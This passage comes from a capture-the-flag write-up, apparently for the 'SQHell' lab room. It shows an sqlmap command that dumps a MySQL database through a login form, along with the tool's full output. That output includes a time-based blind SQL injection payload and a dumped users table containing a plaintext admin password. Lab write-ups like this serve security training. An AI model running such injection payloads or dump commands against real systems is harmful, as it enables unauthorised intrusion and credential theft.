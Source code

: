 Next we can ask SQLMap to dump the contents of that database:

```text
┌──(root💀kali)-[~/thm/sqhell]
└─# sqlmap -u "http://sqhell.thm/login" --method=POST --data="username=admin&password=" -p "username,password" --dbms=mysql -D sqhell_2 --dump-all --threads 10
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.5.5#stable}
|_ -| . [.]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org
[*] starting @ 22:37:42 /2021-06-09/
[22:37:42] [WARNING] provided value for parameter 'password' is empty. Please, always use only valid parameter values so sqlmap could be able to run properly
[22:37:42] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: username (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=admin' AND (SELECT 8790 FROM (SELECT(SLEEP(5)))OuEH) AND 'jtUB'='jtUB&password=admin
---
[22:37:43] [INFO] testing MySQL
[22:37:43] [INFO] confirming MySQL
[22:37:43] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Nginx 1.18.0
back-end DBMS: MySQL >= 8.0.0
[22:37:43] [INFO] fetching tables for database: 'sqhell_2'
[22:37:43] [INFO] fetching number of tables for database 'sqhell_2'
multi-threading is considered unsafe in time-based data retrieval. Are you sure of your choice (breaking warranty) [y/N] 
[22:37:44] [WARNING] time-based comparison requires larger statistical model, please wait.............................. (done)
[22:37:45] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] 
[22:37:53] [INFO] retrieved: 
[22:38:03] [INFO] adjusting time delay to 1 second due to good response times
[22:38:17] [INFO] fetching columns for table 'users' in database 'sqhell_2'
[22:38:17] [INFO] retrieved: 3
[22:38:21] [INFO] retrieved: id
[22:38:27] [INFO] retrieved: username
[22:38:52] [INFO] retrieved: password
[22:39:21] [INFO] fetching entries for table 'users' in database 'sqhell_2'
[22:39:21] [INFO] fetching number of entries for table 'users' in database 'sqhell_2'
[22:39:21] [INFO] retrieved: 1
[22:39:23] [WARNING] (case) time-based comparison requires reset of statistical model, please wait.............................. (done)
[22:39:26] [INFO] retrieved: icantrememberthispasswordcanyou
[22:41:05] [INFO] retrieved: admin
Database: sqhell_2
Table: users
[1 entry]
+----+---------------------------------+----------+
| id | password                        | username |
+----+---------------------------------+----------+
| 1  | icantrememberthispasswordcanyou | admin    |
+----+---------------------------------+----------+
[22:41:21] [INFO] table 'sqhell_2.users' dumped to CSV file '/root/.local/share/sqlmap/output/sqhell.thm/dump/sqhell_2/users.csv'
```